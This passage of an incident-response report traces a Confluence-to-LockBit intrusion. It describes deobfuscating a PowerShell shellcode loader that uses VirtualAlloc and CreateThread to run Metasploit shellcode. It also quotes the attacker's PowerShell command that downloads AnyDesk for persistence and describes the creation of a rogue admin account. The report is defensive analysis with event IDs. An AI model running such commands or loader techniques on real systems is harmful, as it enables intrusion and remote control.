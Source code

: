 To deobfuscate the command line, it’s necessary to:

-   Remove the + symbol, which concatenates strings.
-   Replace {0}, {1} and {2} respectively with =, 6 and P.
-   Base64 decode the resulting string.
-   Gzip decompress the base64 decoded string.

The result is the following PS script, which performs the following actions:

1.  Gets the pointers to specific Windows API functions:  [VirtualAlloc()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc), VirtualProtect(), CreateThread() and WaitForSingleObject().
2.  Allocates a new region of memory via VirtualAlloc() with PAGE_EXECUTE_READWRITE (0x40) permissions.
3.  Copies a base64 decoded Metasploit shellcode into the newly allocated region of memory.
4.  Changes the protection of the new memory region into PAGE_EXECUTE (0x10).
5.  Creates a new thread pointing to the start of the new memory region to execute the Metasploit shellcode.
6.  Waits for the end of the shellcode execution.

[![](https://thedfirreport.com/wp-content/uploads/2025/02/27244_010.png)](https://thedfirreport.com/wp-content/uploads/2025/02/27244_010.png)

The Metasploit shellcode can be emulated through  [speakeasy](https://github.com/mandiant/speakeasy)  to identify the command and control server.

[![](https://thedfirreport.com/wp-content/uploads/2025/02/27244_011.png)](https://thedfirreport.com/wp-content/uploads/2025/02/27244_011.png)

## [Persistence](https://thedfirreport.com/2025/02/24/confluence-exploit-leads-to-lockbit-ransomware/#persistence)

As part of the AnyDesk installation on the beachhead, a service was installed to ensure the instance became available again after a restart. The following PowerShell command was executed to download AnyDesk:

powershell -c (New-Object Net.WebClient).DownloadFile('http://download.anydesk.com/AnyDesk.msi', 'AnyDesk.msi')

The Windows System event 7045 shows service creations. The details show that AnyDeskMSI.exe will be started, and the start type is set to auto, so it will run after a restart of the server.

[![](https://thedfirreport.com/wp-content/uploads/2025/02/27244_012.png)](https://thedfirreport.com/wp-content/uploads/2025/02/27244_012.png)

The threat actor used both valid accounts and created a new account on the beachhead host. The user “backup” was created, given a password, and added to the local “Administrator” group. Sysmon event code 1 shows the commands ran to perform the activity:

[![](https://thedfirreport.com/wp-content/uploads/2025/02/27244_013.png)](https://thedfirreport.com/wp-content/uploads/2025/02/27244_013.png)

Windows Security events 4720 “A user account was created” and 4732 “A member was added to security enabled local group” show the creation of the user and then adding the user to the Administrators group. As the username does not show in the 4732 event. Make sure to compare the unique Security Identifier(SID):
